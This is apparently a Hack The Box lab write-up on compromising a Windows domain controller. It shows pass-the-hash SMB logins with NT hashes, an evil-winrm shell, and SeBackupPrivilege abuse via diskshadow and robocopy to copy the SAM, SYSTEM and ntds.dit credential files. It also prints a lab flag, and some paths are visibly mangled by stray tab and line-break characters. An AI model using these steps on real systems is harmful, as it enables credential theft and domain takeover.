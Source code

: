 When we try to pass hashes with `smbclient //10.10.10.192/ADMIN$ -U "administrator" --pw-nt-hash '7f1e4ff8c6a8e6b6fcae2d9c0572cd62'`, we're met with logon failure. That would've been too easy ;).

When we try `svc_backup`, using:

`smbclient //10.10.10.192/C$ -U "svc_backup" --pw-nt-hash '9658d1d1dcd9250115e2205d9f48400d'`

![Image](/assets/Screenshot 2024-09-20 at 12.46.20 PM.png)

We're able to get access! We can peruse or mount the share, but either way, grab the user flag.

`USER:3920bb317a0bef51027e2852be64b543`

### Privilege Escalation

I like to try `evil-winrm` for every user, even though the ports don't telegraph it's operation on this box. It finally works with `svc_backup`.

![Image](/assets/Screenshot 2024-09-20 at 12.49.17 PM.png)

We find a note in the while rooting around in the base directory.

![Image](/assets/Screenshot 2024-09-18 at 1.15.59 PM.png)

A bit of housekeeping here. We notice, in the `whoami /all` output and note, the mention of backing up privileges tied to this account. We can confirm with Bloodhound. It's called `SEBackupPrivilege`. In theory, we should then be able to backup data, namely the `SYSTEM`, `SAM`, and `ntds.dit` directories. These are the important files that allow us to get access to critical AD information. Once we back it up, we should be able to transfer the copies to our machine, where we can dump secrets!

Also, before we do anything, let's create a `/temp` directory where we can keep things organized while we work. If this was a real assessment, we'd need to make sure to clean this up afterwards.

It took me awhile to figure this out, and in the meantime, I tried to run various priv-esc scripts on the machine. I couldn't get a single file to run, and I think it was because of AV software. Just points that I should've known to look elsewhere!
Let the answers guide you...

We can use the following sequence of commands to creates a shadow copy of the `C:\` drive, in doing so, we'll be able to access any file we want, including the `SYSTEM` and `SAM` file. `diskshadow.exe` is the tool, and it's already installed on windows servers by default. The caveat is, because using the tool requires an interactive session, we'll have to make a `.txt` file emulating the data that we can feed into `diskshadow.exe`. Then, we can execute the necessary commands to create the shadow. The headlined version of the commands is this: We tell `diskshadow` to create a copy of `C:` and name it `Z:`, while making it accessible to us.

```
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

Now, after checking to see that the drive was created, and it has the files we need, we can transfer them to our `/temp` directory with `robocopy`.

`robocopy /b Z:\Windows\System32\Config C:	emp SAM`
`robocopy /b Z:\Windows\System32\Config C:	emp SYSTEM`
`robocopy /b Z:\Windows
tds C:	emp NTDS`
